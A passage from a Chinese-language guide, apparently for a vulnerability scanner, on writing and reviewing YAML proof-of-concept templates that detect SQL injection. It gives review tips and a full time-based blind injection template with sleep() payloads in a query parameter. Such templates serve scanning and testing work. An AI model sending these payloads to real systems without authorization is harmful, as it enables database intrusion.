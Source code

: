 ```yaml
		- http://example.com
```

在这类的poc中，至少有一个rule会是关于sql注入的语句，但是对于结果的展示可能并不会在同一个rule中，所以下面分为两个部分讲解审核中需要注意的问题

- 对于存在`sql注入语句`的rule
	1. 对于给出的SQL注入语句
		- 语句正确无误，能够符合目标系统检出对应的漏洞，必要时可以添加一些绕过方法增加检出率
		- 对于需要验证的变量，`一定`要使用对应sql中能够使用的编码函数处理后再进行匹配，绝对不可以使用`固定值`或者`原内容`
- 对于`验证注入结果`的rule
	1. 注意返回值的编码问题，需要与注入语句中所给出的内容相同
	2. 注意返回值的长度，在部分系统中，返回内容的长度和起始位置与直接编码的结果并不相同（`updatexml`、`extractvalue` 报错回显结果可能会被截断），这时就需要使用substr等函数截取后再进行匹配

### 时间盲注（time based）

时间盲注的检测要稍微复杂一些，同时存在着因为网络环境等误报漏报的问题，这里举例讲解如何尽可能地减少这种误报

```yaml
name: poc-yaml-test-sqli-time-based
manual: true
transport: http
set:
	randSecond1: randomInt(5, 7)
	randSecond2: randomInt(2, 4)
rules:
	r0:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep(0)))v)%2B%27/
		expression: response.status == 200
		output:
			undelayedLantency: response.latency
	r1:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond1}})))v)%2B%27/
		expression: response.latency - undelayedLantency >= randSecond1 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
	r2:
		request:
			cache: false
			method: GET
			path: /xxx?keyword=%27%2B(select(0)from(select(sleep({{randSecond2}})))v)%2B%27/
		expression: response.latency - undelayedLantency >= randSecond2 * 1000 - 500 && response.status == 200 && response.body.bcontains(b"{\"code\":200")
expression: r0() && r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

